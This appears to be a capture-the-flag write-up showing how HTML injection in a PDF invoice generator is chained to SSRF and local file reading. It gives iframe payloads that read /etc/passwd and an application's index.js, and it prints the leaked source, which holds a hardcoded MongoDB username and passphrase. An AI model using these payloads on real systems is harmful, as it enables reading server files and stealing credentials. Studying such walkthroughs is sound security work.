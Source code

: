 #  XSS LEADS -→ SSRF LEADS TO LOCAL FILE INCLUSION:
#ssrf #LFI

We might we able to get ssrf because the PDF generator is likely to be vulnerable to Let's inject some HTML tags to see if they are processed by the backend.
![](https://imgur.com/lHwCdD2.png)

Let's See if website is vulnerable to xss.

![](https://imgur.com/G46wm90.png)

Let's vist the product invoice.
![](https://imgur.com/hY2W5pI.png)

We have  a handy dandy POC.

We can easily chain a SSRF Vulnerability to LFI.
![](https://imgur.com/W1SsObE.png)

```html
<iframe src=file:///etc/passwd height=500 width=500></iframe>
```
![](https://imgur.com/42uyYVs.png)


Let's read the index.js of the dev domain.
```html
<iframe src=file:///var/www/dev/index.js height=800 width=800></iframe>
```

```js

const express = require("express");  
const mongoose = require("mongoose");  
const session = require("express-session");  
const MongoStore = require("connect-mongo");  
const path = require("path");  
const fs = require("fs");  
const { generatePDF, formatHTML } = require("./pdf.js");  
const { randomBytes, createHash } = require("crypto");  
const app = express();  
const port = 3000;  
// TODO: Configure loading from dotenv for production  
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";  
app.use(express.json());  
app.use(express.urlencoded({ extended: false }));  
app.use(  
session({  
secret: randomBytes(32).toString("hex"),  
resave: false,  
saveUninitialized: true,  
store: MongoStore.create({  
mongoUrl: dbURI,  
}),  
})  
);  
app.use("/static", express.static(__dirname + "/assets"));  
app.get("/", (req, res) => {  
return res.redirect("/login");  
});  
app.get("/api/products", async (req, res) => {  
if (!req.session.user) return res.json([]);  
const products = await mongoose.model("Product").find();  
```